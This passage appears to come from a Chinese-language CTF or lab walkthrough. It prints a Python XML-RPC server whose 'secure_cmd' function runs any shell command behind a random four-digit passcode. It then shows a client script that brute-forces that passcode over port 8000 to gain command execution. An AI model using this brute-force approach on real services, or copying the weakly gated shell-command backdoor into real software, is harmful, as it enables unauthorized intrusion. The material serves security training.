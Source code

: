 ```Python
import subprocess
import random

debugging_pass = random.randint(1000,9999)

def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output

def cpu():
    return runcmd("cat /proc/cpuinfo")

def mem():
    return runcmd("free -m")

def disk():
    return runcmd("df -h")

def net():
    return runcmd("ip a")

def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."

server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)

server.serve_forever()
```
这个和之前的8000端口有关，之前调用失败应该是调用的方式不对。
通过查找文档，可能的调用方式为
```Python
from xmlrpclib import ServerProxy

s = ServerProxy("http://127.0.0.1:8000")
print s.disk()
```
执行一下看看
```Shell
python client.py
```
成功执行了，并且打印了输出。再查看源代码，发现可能可以操作的只有 `secure_cmd()` 这个函数。执行这个函数需要 `passcode` ，是一个1000到9999，写一个脚本来找出 `passcode` 。
```Python
from xmlrpclib import ServerProxy
import random

s = ServerProxy("http://127.0.0.1:8000")
for num in range(1000, 9999):
    res =  s.secure_cmd("id", num)
    if res != "Wrong passcode.":
        print num
        break
```
我这里跑出来是6282